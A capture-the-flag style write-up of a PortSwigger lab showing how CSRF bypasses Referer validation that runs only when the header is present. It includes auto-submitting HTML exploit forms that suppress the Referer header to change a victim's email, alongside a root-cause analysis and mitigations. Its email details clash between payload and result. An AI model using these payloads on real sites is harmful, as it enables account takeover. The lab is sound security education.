


# Lab 11: CSRF Where Referer Validation Depends on Header Being Present

> **Topic**: CSRF Vulnerabilities
> **Lab Number**: 11
> **Platform**: PortSwigger Web Security Academy

## Category
CSRF — Referer Validation Bypass via Header Suppression

## Vulnerability Summary
The application validates the `Referer` header on the email-change endpoint to prevent CSRF — but only when the header is actually present. If the `Referer` header is omitted entirely from the request, the server skips validation and processes the request anyway. An attacker can suppress the `Referer` header from a cross-site form submission using the `<meta name="referrer" content="no-referrer">` directive, causing the victim's browser to send the POST without a `Referer` header and bypassing the check entirely.

## Attack Methodology

### Step 1: Recon
Logged in and intercepted the email-change request:

```
POST /my-account/change-email HTTP/2
Host: 0a2a00d20390bcb080fff8c80000003d.web-security-academy.net
Cookie: session=cGHqPcMiRVgQCcBowBtK2hKJv14TBoDn
Content-Type: application/x-www-form-urlencoded
Referer: https://0a2a00d20390bcb080fff8c80000003d.web-security-academy.net/my-account

email=test%40test.com
```

No CSRF token. The endpoint relies on `Referer` header validation.

### Step 2: Understanding the Validation
Tested sending the request with a modified `Referer` pointing to an external domain — rejected. Tested sending the request with the `Referer` header removed entirely — **accepted** with a 302 redirect.

**Hypothesis**: The server checks `if Referer present → validate origin`. If the header is absent, the condition is never entered and the request is processed unconditionally.

### Step 3: Suppressing the Referer Header
The `Referrer-Policy` meta tag can instruct the browser not to send a `Referer` header on form submissions. Adding the following to the exploit page suppresses the header entirely:

```html
<meta name="referrer" content="no-referrer">
```

When the victim's browser submits the form from this page, no `Referer` header is included in the POST request — the server's validation is skipped.

### Step 4: Crafting the Exploit

```html
<html>
  <head>
    <meta name="referrer" content="no-referrer">
  </head>
  <body>
    <form action="https://0a2a00d20390bcb080fff8c80000003d.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="moolikaparatha@gmail.com">
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

### Step 5: Delivering the Exploit
- Pasted the payload into the Exploit Server body
- Clicked **Store** then **Deliver exploit to victim**

### Step 6: Results





Lab marked as **Solved** — victim's email changed to `gobhikaparatha@gmail.com`. Burp Repeater confirms the POST was accepted with `Sec-Fetch-Site: same-origin` and returned `HTTP/2 302 Found`.

## Technical Root Cause

```python
# ❌ Vulnerable — only validates Referer if it is present
def change_email(request):
    referer = request.headers.get('Referer')
    if referer:                                    # skipped entirely if header absent
        if not referer.startswith('https://expected-origin.com'):
            return HttpResponseForbidden()
    process_email_change(request)                  # runs regardless

# ✅ Secure — reject if Referer is absent or invalid
def change_email(request):
    referer = request.headers.get('Referer', '')
    if not referer.startswith('https://expected-origin.com'):
        return HttpResponseForbidden('Invalid or missing Referer')
    process_email_change(request)
```

### Why This Works

| Scenario | Referer Present | Referer Validated | Request Processed |
|----------|----------------|-------------------|-------------------|
| Legitimate same-site request | ✅ Yes | ✅ Passes | ✅ Yes |
| Cross-site with wrong Referer | ✅ Yes | ❌ Fails | ❌ Blocked |
| Cross-site with no Referer (`no-referrer`) | ❌ No | ⏭️ Skipped | ✅ Yes — **vulnerable** |

## Impact
- **CSRF Defence Bypassed**: Referer validation exists but is rendered useless by a single meta tag
- **Account Takeover**: Email change → password reset to attacker's inbox → full takeover
- **No User Interaction Beyond Page Load**: The form auto-submits on page load
- **Browser-Native Suppression**: `no-referrer` is a standard, widely supported browser directive — no browser exploits or special conditions required

## Proof of Concept

**Minimal**
```html
<html>
  <head><meta name="referrer" content="no-referrer"></head>
  <body>
    <form action="https://TARGET/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="attacker@evil.com">
    </form>
    <script>document.forms[0].submit();</script>
  </body>
</html>
```

**Full Exploit (as used)**
```html
<html>
  <head>
    <meta name="referrer" content="no-referrer">
  </head>
  <body>
    <form action="https://0a2a00d20390bcb080fff8c80000003d.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="moolikaparatha@gmail.com">
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## Key Takeaways
1. **Absence of Referer ≠ Safe**: A missing `Referer` must be treated as invalid, not ignored. The same flaw pattern as Lab 03 (missing CSRF token treated as valid) — just applied to a different header.
2. **`no-referrer` Is a Standard Browser Feature**: Any attacker can suppress the `Referer` header from a cross-site form submission using a single meta tag. It requires no special tools or browser exploits.
3. **Referer Validation Is Weak by Design**: Browsers are not required to send the `Referer` header, and many privacy tools, browser extensions, and corporate proxies strip it. Relying on it as a sole CSRF defence is fragile.
4. **Always Test Header Removal**: After testing a wrong header value, immediately test removing the header entirely — two different bypass vectors, one-second test each.
5. **CSRF Tokens Are the Right Fix**: Referer and Origin header checks are defence-in-depth, not primary controls. A synchronizer token tied to the session is the correct solution.

## Mitigation

### 1. Require Referer Presence AND Validity
```python
# ✅ Reject if Referer is missing or invalid
referer = request.headers.get('Referer', '')
if not referer.startswith('https://yourdomain.com'):
    return HttpResponseForbidden('Invalid or missing Referer')
```

### 2. Use CSRF Tokens (correct fix)
```html
<form action="/my-account/change-email" method="POST">
  <input type="hidden" name="csrf" value="{{ csrf_token }}">
  <input type="email" name="email">
  <button type="submit">Update</button>
</form>
```

### 3. Validate the Origin Header as Additional Defence
```python
origin = request.headers.get('Origin', '')
if origin and origin != 'https://yourdomain.com':
    return HttpResponseForbidden()
```

### 4. SameSite Cookie Attribute
```http
Set-Cookie: session=abc123; SameSite=Strict; Secure; HttpOnly
```

## References
- [PortSwigger CSRF Lab - Referer Validation Depends on Header Being Present](https://portswigger.net/web-security/csrf/bypassing-referer-based-defenses/lab-referer-validation-depends-on-header-being-present)
- [PortSwigger — Bypassing Referer-Based CSRF Defences](https://portswigger.net/web-security/csrf/bypassing-referer-based-defenses)
- [MDN — Referrer-Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Referrer-Policy)
- [OWASP CSRF Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html)

## Tools Used
- Burp Suite Professional (Proxy, Repeater)
- Chromium
- PortSwigger Exploit Server

---

*Lab completed on: 2026-04-19*
*Writeup by vibhxr*
